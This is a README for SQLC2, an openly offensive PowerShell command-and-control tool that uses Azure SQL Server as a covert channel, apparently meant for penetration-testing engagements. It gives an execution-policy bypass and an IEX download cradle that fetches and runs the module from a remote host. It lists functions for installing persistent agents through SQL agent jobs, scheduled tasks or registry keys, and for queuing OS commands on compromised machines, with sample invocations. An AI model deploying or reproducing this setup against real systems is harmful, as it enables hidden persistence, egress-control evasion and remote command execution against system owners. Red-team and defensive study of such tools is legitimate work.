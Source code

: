 # SQLC2
SQLC2 is a PowerShell script for deploying and managing a command and control system that uses SQL Server as both the control server and the agent.  At its core, SQLC2 is just a PowerShell script, a TSQL script, and a few tables in an SQL Server instance that tracks agents, commands, and results. Nothing too fancy, but it may prove to be useful on some engagements. 

For a more complete overview of SQLC2 check out the blog at https://blog.netspi.com/.

### Author and License
* Author: Scott Sutherland (@_nullbind), NetSPI - 2018
* License: BSD 3-Clause
* Required Dependencies: None

# Why Bother with a SQL Server Based C2?
More companies are starting to use Azure SQL Server databases. When those Azure SQL Server instances are created, they are made accessible via a subdomain of database.windows.net on port 1433. For example, I could create SQL Server instance named "mysupersqlserver.database.windows.net". As a result, some corporate network configurations allow outbound internet access to any "database.windows.net" subdomain on port 1433. 

The general idea is that as Azure SQL Server adoption grows, there will be more opportunity to use SQL Server as a control channel that looks kind of like normal traffic.  SQLPS is a pretty basic proof of concept, but I think it’s functional enough to illustrate the idea. I know there are quite a few improvements to be made, but if you end up playing with it, I’d love your feedback.

### Not Just for Azure
Although there is an emphasis on using SQLC2 with Azure SQL Server instances, you could host your own SQL Server in any cloud environment and have it listen on port 443 with SSL enabled. So, it could offer a little more flexibility depending on how much effort you want to put into it.

# Loading SQLC2
* **Option 1:** Download the script and import it.  This does not require administrative privileges and will only be imported into the current session.  However, it may be blocked by restrictive execution policies, so you may want to use the bypass option.

    `Set-ExecutionPolicy Bypass -Scope Process`
    
    `Import-Module SQLC2.psm1`
    
* **Option 2:** Load it into a session via a download cradle.  This does not require administrative privileges and will only be imported into the current session.  It should not be blocked by executions policies.

    `IEX(New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/NetSPI/SQLC2/master/SQLC2.psm1")`

     **Note:** To run as an alternative domain user, use the runas command to launch PowerShell first. 

    `runas /noprofile /netonly /user:domain\user PowerShell.exe`
    
# Basic SQLC2 architecture diagram
![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/arch.png) 

# User Functions
Below is a list of user functions that support the intended workflows.  

|Function Name|Description |
|:--------------------------------|:-----------|
|Install-SQLC2Server|Install SQLC2 tables on target SQL Server/database.|
|Install-SQLC2AgentPs|Install an agent that uses an SQL Server agent job and server link.|
|Install-SQLC2AgentLink|Install an agent that uses a schedule task or registry key to execute PowerShell commands.|
|Set-SQLC2Command|Set operating system commands for agents to run.|
|Get-SQLC2Command|Get a list of pending operating system commands from the C2 for the agent.  This can also execute the pending command with the -Execute flag.|
|Get-SQLC2Agent|Get a list of agents registered on the SQLC2 server.| 
|Get-SQLC2Result|Get a list of pending and completed commands. Support servername, status, and cid filters.|
|Remove-SQLC2Agent|Remove agents registered on the SQLC2. Simply clears the history.|
|Remove-SQLC2Command|Remove the command history on the SQLC2 server.|
|Uninstall-SQLC2AgentLink|Uninstall SQLC2 agent that uses server links and an agent job.|
|Uninstall-SQLC2AgentPs|Uninstall all operating system based persistence methods.|
|Uninstall-SQLC2Server|Remove the SQLC2 tables from the target database.|

# Screen Shots
Below are a few sample screenshots.

Install SQLC2 Server (Create tables):

`Install-SQLC2Server -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install C2](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Server.png) 

Install SQLC2 Agent (SQL Server agent Job that uses a server link):

`Install-SQLC2AgentPs -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Install Agent](https://github.com/NetSPI/SQLC2/blob/master/images/Install_SQLC2_Link_Agent.png)  

View SQLC2 Agents:

`Get-SQLC2Agent -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![SQLC2Arch](https://github.com/NetSPI/SQLC2/blob/master/images/Get-Command-Results.png) 

Set Command to Run on Agent:

`Set-SQLC2Command -Verbose -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'
-Command "Whoami" -ServerName MSSQLSRV04`

![Set_Command](https://github.com/NetSPI/SQLC2/blob/master/images/Set%20Command%20to%20Run%20on%20Agent.png)        

Get Command Results:

`Get-SQLC2Result -Verbose -ServerName "MSSQLSRV04" -Instance sqlserverc21.database.windows.net -Database test1 -Username CloudAdmin -Password 'BestPasswordEver!'`

![Get Command Output](https://github.com/NetSPI/SQLC2/blob/master/images/List%20execute%20agent%20commands.png)       

